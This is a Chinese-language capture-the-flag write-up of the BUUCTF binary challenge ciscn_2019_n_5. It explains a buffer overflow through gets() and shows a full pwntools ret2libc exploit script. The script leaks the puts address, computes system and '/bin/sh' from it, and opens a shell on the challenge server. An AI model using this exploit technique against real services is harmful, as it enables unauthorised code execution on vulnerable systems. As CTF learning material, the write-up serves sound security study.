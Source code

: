 ### Puts 泄露 libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a7063ad0e0a243d4fcff38.png)

gets 明显存在溢出，但是没有给出后门函数及可利用字符串，需要先泄露 libc 基址

左边 plt 表中有 puts 函数，可通过调用 puts 函数打印 puts 在 got 表中的地址来计算 libc 地址

![](https://pic1.imgdb.cn/item/67a70653d0e0a243d4fcff3c.png)

缓冲区的垃圾数据是 40 字节

![](https://pic1.imgdb.cn/item/67a70684d0e0a243d4fcff44.png)

先使用工具获取 pop rdi 及 ret 地址

![](https://pic1.imgdb.cn/item/67a71baed0e0a243d4fd092b.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',28632)

elf = ELF('./ciscn_2019_n_5')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

main = 0x400636
pop_rdi = 0x400713
ret = 0x4004c9

p.recvuntil('name\n')
p.sendline('aaa')
p.recvuntil('me?\n')

payload = b'a' * 40 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)

puts_add = u64(p.recv(6).ljust(8,b'\x00'))

# 偏移网上找的
system = puts_add - 0x31580
binsh = puts_add + 0x1334da

p.recvuntil('name\n')
p.sendline('aaa')
p.recvuntil('me?\n')

payload = b'a'*0x28 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)
p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a707c5d0e0a243d4fd0186.png)
